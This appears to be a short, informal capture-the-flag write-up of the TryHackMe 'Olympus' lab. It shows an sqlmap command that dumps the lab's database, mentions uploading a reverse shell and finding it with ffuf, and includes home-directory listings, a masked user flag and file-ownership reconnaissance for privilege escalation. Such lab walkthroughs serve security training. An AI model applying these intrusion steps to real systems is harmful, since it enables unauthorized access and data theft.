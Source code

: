 🚩 I tried to upload some revers shell but couldn't read attached file.

```
echo '10.10.101.205 chat.olympus.thm' >> /etc/hosts
```
![image](https://user-images.githubusercontent.com/6504854/193457626-cb04afd6-c759-4ae4-b66f-bbc5164a527d.png)

![image](https://user-images.githubusercontent.com/6504854/193457708-cbedf48a-c642-4179-8c53-c785a6c8faf4.png)

🚩 Surely it scceeded to upload revers shell, I had no idea of url.

```
sqlmap -r sql1.txt --dbs --tables -D olympus --dump --fresh-queries 
```
![image](https://user-images.githubusercontent.com/6504854/193457943-2042470c-2e7f-4522-bdc5-2df4637cb765.png)

![image](https://user-images.githubusercontent.com/6504854/193458242-6a40a7bd-b467-4f5c-8475-f372eb983363.png)

🚩 I found /uploads/ via ffuf. 

## Flag
```
$ cd /home/zeus
$ ls -la
total 808
drwxr-xr-x 7 zeus zeus   4096 Oct  2 12:12 .
drwxr-xr-x 3 root root   4096 Mar 22  2022 ..
lrwxrwxrwx 1 root root      9 Mar 23  2022 .bash_history -> /dev/null
-rw-r--r-- 1 zeus zeus    220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 zeus zeus   3771 Feb 25  2020 .bashrc
drwx------ 2 zeus zeus   4096 Mar 22  2022 .cache
drwx------ 3 zeus zeus   4096 Oct  2 12:14 .gnupg
drwxrwxr-x 3 zeus zeus   4096 Mar 23  2022 .local
-rw-r--r-- 1 zeus zeus    807 Feb 25  2020 .profile
drwx------ 2 zeus zeus   4096 Apr 14 10:35 .ssh
-rw-r--r-- 1 zeus zeus      0 Mar 22  2022 .sudo_as_admin_successful
-rwxrwxr-x 1 zeus zeus 776967 Jul  2 13:53 linpeas.sh
drwx------ 3 zeus zeus   4096 Apr 14 09:56 snap
-rw-rw-r-- 1 zeus zeus     34 Mar 23  2022 user.flag
-r--r--r-- 1 zeus zeus    199 Apr 15 07:28 zeus.txt
$ cat user.flag
flag{Y*************************R}
$ cat zeus.txt
Hey zeus !


I managed to hack my way back into the olympus eventually.
Looks like the IT kid messed up again !
I've now got a permanent access as a super user to the olympus.
                                                - Prometheus
```
```
find / -user zeus -type f 2>/dev/null

/home/zeus/zeus.txt
/home/zeus/user.flag
/home/zeus/.sudo_as_admin_successful
/home/zeus/.bash_logout
/home/zeus/.bashrc
/home/zeus/.profile
/usr/bin/cputils
/var/www/olympus.thm/public_html/~webmaster/search.php
/var/crash/_usr_bin_cp-utils.1000.crash
```
🚩 /usr/bin/cputils 🤔🤔🤔